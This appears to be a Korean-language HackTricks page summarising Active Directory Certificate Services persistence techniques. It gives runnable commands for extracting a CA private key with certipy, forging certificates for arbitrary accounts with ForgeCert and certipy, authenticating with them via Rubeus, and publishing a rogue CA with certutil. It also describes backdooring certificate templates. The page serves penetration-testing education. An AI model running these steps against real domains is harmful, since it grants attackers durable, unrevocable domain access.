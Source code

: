 # AD CS Domain Persistence

{{#include ../../../banners/hacktricks-training.md}}

**이것은 [https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)에서 공유된 도메인 지속성 기술의 요약입니다**. 추가 세부정보는 해당 링크를 확인하세요.

## 도난당한 CA 인증서로 인증서 위조하기 - DPERSIST1

인증서가 CA 인증서인지 어떻게 알 수 있나요?

여러 조건이 충족되면 인증서가 CA 인증서임을 확인할 수 있습니다:

- 인증서는 CA 서버에 저장되며, 개인 키는 머신의 DPAPI 또는 운영 체제가 지원하는 경우 TPM/HSM과 같은 하드웨어로 보호됩니다.
- 인증서의 발급자(Issuer) 및 주체(Subject) 필드가 CA의 고유 이름과 일치합니다.
- "CA Version" 확장자가 CA 인증서에만 존재합니다.
- 인증서에는 확장 키 사용(EKU) 필드가 없습니다.

이 인증서의 개인 키를 추출하기 위해 CA 서버의 `certsrv.msc` 도구가 내장 GUI를 통해 지원되는 방법입니다. 그럼에도 불구하고 이 인증서는 시스템 내의 다른 인증서와 다르지 않으므로, [THEFT2 기술](certificate-theft.md#user-certificate-theft-via-dpapi-theft2)과 같은 방법을 사용하여 추출할 수 있습니다.

인증서와 개인 키는 다음 명령어를 사용하여 Certipy로도 얻을 수 있습니다:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA 인증서와 그 개인 키를 `.pfx` 형식으로 획득한 후, [ForgeCert](https://github.com/GhostPack/ForgeCert)와 같은 도구를 사용하여 유효한 인증서를 생성할 수 있습니다:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
> [!WARNING]
> 인증서 위조의 대상이 되는 사용자는 활성 상태여야 하며 Active Directory에서 인증할 수 있어야 프로세스가 성공합니다. krbtgt와 같은 특수 계정에 대한 인증서를 위조하는 것은 효과적이지 않습니다.

이 위조된 인증서는 **유효**하며 지정된 종료 날짜까지와 **루트 CA 인증서가 유효한 한** (보통 5년에서 **10년 이상**) 유효합니다. 또한 **기계**에 대해서도 유효하므로 **S4U2Self**와 결합하면 공격자는 **CA 인증서가 유효한 한** 어떤 도메인 기계에서든 **지속성을 유지할 수 있습니다**.\
게다가, 이 방법으로 **생성된 인증서**는 CA가 이를 인식하지 못하므로 **취소할 수 없습니다**.

## 악성 CA 인증서 신뢰 - DPERSIST2

`NTAuthCertificates` 객체는 Active Directory (AD)가 사용하는 `cacertificate` 속성 내에 하나 이상의 **CA 인증서**를 포함하도록 정의됩니다. **도메인 컨트롤러**의 검증 프로세스는 인증하는 **인증서**의 발급자 필드에 지정된 **CA**와 일치하는 항목을 `NTAuthCertificates` 객체에서 확인하는 것을 포함합니다. 일치하는 항목이 발견되면 인증이 진행됩니다.

자기 서명된 CA 인증서는 공격자가 이 AD 객체를 제어할 수 있는 경우 `NTAuthCertificates` 객체에 추가할 수 있습니다. 일반적으로 **Enterprise Admin** 그룹의 구성원과 **도메인 관리자** 또는 **포리스트 루트 도메인**의 **관리자**만이 이 객체를 수정할 수 있는 권한을 부여받습니다. 그들은 `certutil.exe`를 사용하여 `NTAuthCertificates` 객체를 편집할 수 있으며, 명령어는 `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`입니다. 또는 [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)을 사용할 수 있습니다.

이 기능은 ForgeCert를 사용하여 동적으로 인증서를 생성하는 이전에 설명된 방법과 함께 사용할 때 특히 관련이 있습니다.

## 악의적인 잘못된 구성 - DPERSIST3

AD CS 구성 요소의 **보안 설명자 수정**을 통한 **지속성** 기회는 풍부합니다. "[Domain Escalation](domain-escalation.md)" 섹션에 설명된 수정 사항은 권한이 상승된 공격자에 의해 악의적으로 구현될 수 있습니다. 여기에는 다음과 같은 민감한 구성 요소에 "제어 권한" (예: WriteOwner/WriteDACL 등)을 추가하는 것이 포함됩니다:

- **CA 서버의 AD 컴퓨터** 객체
- **CA 서버의 RPC/DCOM 서버**
- **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** 내의 모든 **하위 AD 객체 또는 컨테이너** (예: 인증서 템플릿 컨테이너, 인증 기관 컨테이너, NTAuthCertificates 객체 등)
- 기본적으로 또는 조직에 의해 AD CS를 제어할 권한이 위임된 **AD 그룹** (예: 내장된 Cert Publishers 그룹 및 그 구성원)

악의적인 구현의 예는 도메인에서 **상승된 권한**을 가진 공격자가 기본 **`User`** 인증서 템플릿에 **`WriteOwner`** 권한을 추가하는 것입니다. 공격자는 먼저 **`User`** 템플릿의 소유권을 자신으로 변경합니다. 그 후, **`mspki-certificate-name-flag`**를 **1**로 설정하여 **`ENROLLEE_SUPPLIES_SUBJECT`**를 활성화하여 사용자가 요청에 주체 대체 이름을 제공할 수 있도록 합니다. 이후 공격자는 **템플릿**을 사용하여 **등록**하고, 대체 이름으로 **도메인 관리자** 이름을 선택하여 획득한 인증서를 DA로서 인증에 사용할 수 있습니다.

{{#include ../../../banners/hacktricks-training.md}}
